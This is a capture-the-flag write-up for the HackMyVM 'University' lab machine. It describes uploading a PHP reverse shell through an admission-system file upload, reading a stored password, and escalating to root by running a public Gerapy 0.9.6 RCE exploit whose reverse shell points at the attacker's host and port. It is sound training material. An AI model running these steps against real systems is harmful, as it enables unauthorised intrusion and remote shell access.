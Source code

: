 ```yaml
---
layout: single
title:  "University - HackMyVM Writeup"
excerpt: "Linux - Easy --> Online-Admission System File Upload - Gerapy RCE"
---
```


# Index
---

- [Enumeration](#enumeration)
- [Vulnerability Analysis](#vulnerability-analysis)
- [Exploitation](#exploitation)
- [Gaining User Access](#gaining-user-access)
- [Privilege Escalation](#privilege-escalation)

# Enumeration
---

![Image]({{ site.baseurl }}/images/HackMyVM/University/1.png)

# Vulnerability Analysis
---

https://github.com/rskoolrash/Online-Admission-System

Analyzing the results of the directory enumeration and comparing it with the repository, I see that it is a cloning of the repository.

![Image]({{ site.baseurl }}/images/HackMyVM/University/2.png)

![Image]({{ site.baseurl }}/images/HackMyVM/University/3.png)

![Image]({{ site.baseurl }}/images/HackMyVM/University/4.png)

In documents.php apparently we can upload files. I will see if I can upload a PHP Revshell PentestMonkey.

# Exploitation
---

![Image]({{ site.baseurl }}/images/HackMyVM/University/5.png)

When I try to upload only 1 file I get an error. Analyzing the content of "fileupload.php" in the repository, I see that apparently it requires all the files to be uploaded at the same time.

When uploading all the files, I no longer get any errors, but I don't see any output on the web. Reading the code I see that one of the directories to which these files are uploaded is "/studentpic/", so here inside should be the "shell.php" that I uploaded.

![Image]({{ site.baseurl }}/images/HackMyVM/University/6.png)

![Image]({{ site.baseurl }}/images/HackMyVM/University/7.png)

I see that the file exists, and when I access it I receive the revshell.

![Image]({{ site.baseurl }}/images/HackMyVM/University/8.png)

# Gaining User Access
---

![Image]({{ site.baseurl }}/images/HackMyVM/University/9.png)

![Image]({{ site.baseurl }}/images/HackMyVM/University/10.png)

I found a file called .sandra_secret which contains what could be a password.

![Image]({{ site.baseurl }}/images/HackMyVM/University/11.png)

![Image]({{ site.baseurl }}/images/HackMyVM/University/12.png)

# Privilege Escalation
---

Checking for sudo permissions on the user, I found that we can run the program "/usr/local/bin/gerapy" as root.

![Image]({{ site.baseurl }}/images/HackMyVM/University/13.png)

On the error log the version Gerapy 0.9.6 was detected. Running the program with sudo we can confirm that version.

![Image]({{ site.baseurl }}/images/HackMyVM/University/14.png)

https://github.com/Gerapy/Gerapy

On the repository we can find the way to run this program.

``` yaml
sudo gerapy init
cd gerapy
sudo gerapy migrate
sudo gerapy createsuperuser

Credentials --> kuro:administrator123

# Command to run the server in public mode
sudo gerapy runserver 0.0.0.0:8000

```

Using SearchSploit, I found an Authenticated RCE exploit for this version.

![Image]({{ site.baseurl }}/images/HackMyVM/University/20.png)

To install the exploit I used the following lines:

``` yaml
searchsploit -m 50640.py

python3 -m venv venv
source venv/bin/activate

pip install pyfiglet
pip install requests

```

Now I modified the exploit to use the credentials I put in when I set up the server. After modifying the credentials, I tried to run the exploit, but it raises an error because it needs a project created on the Gerapy server, so I manually created it on the GUI.

![Image]({{ site.baseurl }}/images/HackMyVM/University/23.png)

![Image]({{ site.baseurl }}/images/HackMyVM/University/24.png)

With the project created, now we can run the exploit.

``` yaml
python3 50640.py -t 192.168.1.85 -p 8000 -L 192.168.1.84 -P 4444
```

![Image]({{ site.baseurl }}/images/HackMyVM/University/25.png)


